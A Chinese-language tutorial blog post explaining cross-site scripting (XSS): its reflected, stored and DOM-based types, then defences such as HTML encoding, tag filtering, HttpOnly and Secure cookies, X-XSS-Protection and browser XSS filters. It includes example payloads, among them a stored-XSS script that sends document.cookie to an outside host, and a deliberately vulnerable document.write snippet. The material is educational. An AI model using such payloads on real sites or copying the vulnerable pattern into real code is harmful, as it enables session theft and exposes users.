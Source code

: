 ```yaml
---
title: XSS
date: 2018-11-23 22:32:05
tags: 技术
---
```


#### 什么是XSS

XSS又称CSS，全称Cross SiteScript，跨站脚本攻击，是Web程序中常见的漏洞。

XSS是指恶意攻击者利用网站没有对用户提交数据进行转义处理或者过滤不足的缺点，进而添加一些代码，嵌入到web页面中去。使别的用户访问都会执行相应的嵌入代码。从而盗取用户资料、利用用户身份进行某种动作或者对访问者进行病毒侵害的一种攻击方式。如，盗取用户Cookie、破坏页面结构、重定向到其它网站等。

#### 危害

![](./img/xss危害.png)

这么多~~

#### 有哪些注入的方法和途径：

- 在 HTML 中内嵌的文本中，恶意内容以 script 标签形成注入。
- 在内联的 JavaScript 中，拼接的数据突破了原本的限制（字符串，变量，方法名等）。
- 在标签属性中，恶意内容包含引号，从而突破属性值的限制，注入其他属性或者标签。
- 在标签的 href、src 等属性中，包含 javascript: 等可执行代码。
- 在 onload、onerror、onclick 等事件中，注入不受控制代码。
- 在 style 属性和标签中，包含类似 background-image:url("javascript:..."); 的代码（新版本浏览器已经可以防范）。
- 在 style 属性和标签中，包含类似 expression(...) 的 CSS 表达式代码（新版本浏览器已经可以防范）。

>总之，如果开发者没有将用户输入的文本进行合适的过滤，就贸然插入到 HTML 中，这很容易造成注入漏洞。攻击者可以利用漏洞，构造出恶意的代码指令，进而利用恶意代码危害数据安全。

#### 分类

##### 1、反射型xss攻击

又称为非持久性跨站点脚本攻击，它是最常见的类型的XSS。漏洞产生的原因是攻击者注入的数据反映在响应中。一个典型的非持久性XSS包含一个带XSS攻击向量的链接(即每次攻击需要用户的点击)。

反射型ＸＳＳ也被称为非持久性ＣＳＳ。当用户访问一个带有XSS代码的URL请求时，服务器端接收数据后处理，然后把带有XSS代码的数据发送到浏览器，浏览器解析这段带有XSS代码的数据后，最终造成ＸＳＳ漏洞。这个过程就像一次反射，故称为反射型ＸＳＳ。

```
正常发送消息：

http://www.test.com/message.php?send=Hello,World！

接收者将会接收信息并显示Hello,Word

非正常发送消息：

http://www.test.com/message.php?send=<script>aldert(‘foolish!’)</script>！

接收者接收消息显示的时候将会弹出警告窗口
```

##### 2、存储型xss攻击

Stored XSS是存储式XSS漏洞，由于其攻击代码已经存储到服务器上或者数据库中，所以受害者是很多人。


a.com可以发文章，我登录后在a.com中发布了一篇文章，文章中包含了恶意代码，<script>window.open(“www.b.com?param=”+document.cookie)</script>，保存文章。这时Tom和Jack看到了我发布的文章，当在查看我的文章时就都中招了，他们的cookie信息都发送到了我的服务器上，攻击成功！这个过程中，受害者是多个人。

Stored XSS漏洞危害性更大，危害面更广。

##### 3、DOMBasedXSS（基于dom的跨站点脚本攻击）

基于DOM的XSS有时也称为type0XSS。当用户能够通过交互修改浏览器页面中的DOM(DocumentObjectModel)并显示在浏览器上时，就有可能产生这种漏洞，从效果上来说它也是反射型XSS。

通过修改页面的DOM节点形成的XSS，称之为DOMBasedXSS。

前提是易受攻击的网站有一个HTML页面采用不安全的方式从document.location 或document.URL 或 document.referrer获取数据（或者任何其他攻击者可以修改的对象）。
　　
var pos= document.URL.indexOf("name=")+5;

var len = document.URL.substring(pos,document.URL.length);  

document.write(len);  

>
这个页面，name是截取URL中get过来的name参数  
正常操作：  
http://www.vulnerable.site/welcome.html?name=Joe  
非正常操作：  
http://www.vulnerable.site/welcome.html?name=<script>a1lert(document.cookie)</script>


### 防御

#### 类似这些操作要小心

innerHTML、.outerHTML、document.write()

#### HTML Encode

用户将数据提交上来的时候进行HTML编码，将相应的符号转换为实体名称再进行下一步的处理。

```
比如用户输入：<script>window.location.href=”http://www.baidu.com”;</script>，保存后最终存储的会是：&lt;script&gt;window.location.href=&quot;http://www.baidu.com&quot;&lt;/script&gt;在展现时浏览器会对这些字符转换成文本内容显示，而不是一段可执行的代码。
```

#### 过滤或移除特殊的Html标签

例如: &lt;script&gt;, &lt;iframe&lt; , &lt; for &lt;, &gt; for &gt;, &quot for

##### 过滤JavaScript 事件的标签

例如 "onclick=", "onfocus" 等等。

#### 将重要的cookie标记为http only

这样的话Javascript 中的document.cookie语句就不能获取到cookie了.

#### 表单数据规定值的类型

例如：年龄应为只能为int、name只能为字母数字组合

>这里有个国人写的xss过滤的  https://jsxss.com/zh/index.html

#### Secure标记

标记为 Secure 的Cookie只应通过被HTTPS协议加密过的请求发送给服务端。

#### X-XSS-Protection

让浏览器去做xss筛选，起到保护作用。

只要在HTTP响应报文的头部增加一个X-XSS-Protection 字段，明确地告诉浏览器XSS filter/auditor该如何工作。 

X-XSS-Protection 的字段有三个可选配置值：

- 0： 表示关闭浏览器的XSS防护机制
- 1：删除检测到的恶意代码，如果响应报文中没有看到X-XSS-Protection 字段，那么浏览器就认为X-XSS-Protection配置为1，这是浏览器的默认设置
- 1; mode=block：如果检测到恶意代码，在不渲染恶意代码


### 浏览器XSS过滤策略

从IE8 开始，IE 浏览器内置了一个针对XSS攻击的防护机制，这个浏览器内置的防护机制就是所谓的XSS filter，这个防护机制主要用于减轻反射型XSS 攻击带来的危害。 基于Webkit 内核的浏览器（比如Chrome）随后也增加一个名为XSS auditor 的防护机制，作用和IE中的XSS filter类似。这两种XSS防护机制的目的都很简单，如果浏览器检测到了含有恶意代码的输入被呈现在HTML文档中，那么这段呈现的恶意代码要么被删除，要么被转义，恶意代码不会被正常的渲染出来，当然了，浏览器是否要拦截这段恶意代码取决于浏览器的XSS防护设置。

怎么设置策略。看上面“X-XSS-Protection”

***

IE引入的XSS filter。
有一堆的正则表达式。
每一行正则式代表一条规则。IE在判断时会扫描URL，对匹配上的正则表达式的url报警，提示发现xss攻击并将字符替换为“#“。

***

chrome XSSAuditor的工作原理
chrome的XSSAuditor也被整合到了渲染引擎WebKit中。

当网页加载时，XSSAuditor会在页面之前苹果用户的输入。它首先评估用户输入是否包含有恶意内容，如果有就拦截。XSSAuditor也会检查用户是否会“反射”到正在渲染的页面中。

***

***原理的区别：***  
与IE不同的是，chrome的XSSAuditor并没有使用正则的形式去判断。chrome的xss过滤是在词法解析阶段进行的。在解析网页时，html代码会被分解成不同的token（每个token即一个元素），XSSAuditor会逐一审查token，将token中存在的危险属性、字段和url比较，若url中也有同样的内容，则XSSAuditor会认为这是一个反射型xss攻击，随后会对该字段进行过滤处理。


例如在检查如下代码 

```
\<iframe src="x" onerror="ale2rt(6)"\>\</iframe\>
```

会依次做如下判断:  

- 1.检查开始标签iframe，如果包含属性src、onerror,则认为可能危险，继续检查
- 2.如果src 不是以javascript:开头，则安全，放行。
- 3.onerror中包含脚本，检查这段代码是否同样出现在url中。
- 4.如果出现在url中，认为这个地方有问题，这段代码会被过滤成&lt;iframe src="x" onerror="void(0)"&gt;&lt;/iframe&gt; 如果没有出现在url中，认为这个地方没有问题，继续。
- 5.检查终止标签iframe，没有问题，全流程结束


>火狐浏览器为什么没有xss filter机制
>XSS攻击也应正了安全圈内非常有名的一句话：所有的输入都是有害的。